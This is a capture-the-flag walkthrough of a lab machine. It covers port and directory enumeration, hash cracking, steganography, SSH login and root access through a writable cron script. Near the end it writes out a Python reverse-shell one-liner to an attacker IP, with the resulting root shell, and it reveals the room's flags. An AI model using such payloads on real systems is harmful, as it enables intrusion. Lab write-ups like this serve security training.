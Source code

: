 Deploy the machine attached to this task and use nmap to enumerate it.

nmap
```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-09 11:37 PST
Nmap scan report for 10.10.20.73
Host is up (0.16s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.16.1
6498/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))


```

gobuster with common.txt
```
└─$ gobuster dir -w common.txt -x php,html,txt -u http://10.10.20.73
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.20.73
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2021/12/09 11:39:17 Starting gobuster in directory enumeration mode
===============================================================
/hidden               (Status: 301) [Size: 169] [--> http://10.10.20.73/hidden/]
/index.html           (Status: 200) [Size: 612]                                 
/index.html           (Status: 200) [Size: 612]                                 
/robots.txt           (Status: 200) [Size: 43]                                  
/robots.txt           (Status: 200) [Size: 43]    
```

on /hidden -> binwalk and exiftool yield nothing from the page's background image.

gobuster on 10.10.20.73/hidden yielded a page /whatever. 
Hidden in its source code was `ZmxhZ3tmMXJzN19mbDRnfQ==` -> base64 decoded is `flag{f1rs7_fl4g}`

In the source of 10.10.20.73:65524, I found `its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu` -> its base62 encoded and it decodes to `/n0th1ng3ls3m4tt3r`
I also found `Fl4g 3 : flag{9fdafbd64c47471a8f54cd3fc64cd312}`

on http://10.10.20.73:65524/n0th1ng3ls3m4tt3r/, I found `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81` hidden in the source code
```
─$ ./john --wordlist=/home/gomez22/Desktop/easypeasy.txt --format=gost ~/Desktop/hash                             
Using default input encoding: UTF-8
Loaded 1 password hash (gost, GOST R 34.11-94 [64/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mypasswordforthatjob (?) 
```

hash-identifier tells me that flag3 is an md5 hash. Lets try to crack it.
9fdafbd64c47471a8f54cd3fc64cd312 -> candeger

on 10.10.20.73:65524/robots.txt
```
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```
a18672860d0510e5ab6699730763b250 -> md5 hash -> md5hashing.net -> flag{1m_s3c0nd_fl4g}

on http://10.10.20.73:65524/n0th1ng3ls3m4tt3r/ is a background image and a foreground image. I copied the foreground image and
used steghide to see if anything was hidden in the image. When prompted for a password, I used
`mypasswordforthatjob` and I successfully extracted a secrettext.txt file.

secrettext.txt
```
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 
01110010 01110100 01100101 01100100 01101101 01111001 
01110000 01100001 01110011 01110011 01110111 01101111 
01110010 01100100 01110100 01101111 01100010 01101001 
01101110 01100001 01110010 01111001

```

converting the binary gives us the credentials `boring:iconvertedmypasswordtobinary`.

Let's ssh in.
```
boring@kral4-PC:~$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

 synt{a0jvgf33zfa0ez4y}-> rot13 -> flag{n0wits33msn0rm4l}
 
 hmm, so I can't run sudo as this user.
 
 ```
 sudo --version
 boring@kral4-PC:/$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2

 ```
 
 ```
 boring@kral4-PC:/etc$ cat crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh

 ```
 boring@kral4-PC:/var/www$ ls -la
total 16
drwxr-xr-x  3 root   root   4096 Jun 15  2020 .
drwxr-xr-x 14 root   root   4096 Jun 13  2020 ..
drwxr-xr-x  4 root   root   4096 Jun 15  2020 html
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh

 ```
 boring@kral4-PC:/var/www$ ls -la
total 16
drwxr-xr-x  3 root   root   4096 Jun 15  2020 .
drwxr-xr-x 14 root   root   4096 Jun 13  2020 ..
drwxr-xr-x  4 root   root   4096 Jun 15  2020 html
-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh

 ```
 `python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.248.108",1111));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'`
 
 ```
 └─$ netcat -nvlp 1111
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.10.20.73.  
Ncat: Connection from 10.10.20.73:50350.
bash: cannot set terminal process group (1926): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# whoami
whoami
root
root@kral4-PC:/var/www# 
 ```
 
 ```
 root@kral4-PC:~# ls -a
ls -a
.
..
.bash_history
.bashrc
.cache                                                                                                             
.gnupg                                                                                                             
.local                                                                                                             
.profile                                                                                                           
.root.txt                                                                                                          
.selected_editor                                                                                                   
root@kral4-PC:~# cat .root.txt                                                                                     
cat .root.txt                                                                                                      
flag{63a9f0ea7bb98050796b649e85481845}  
 ```
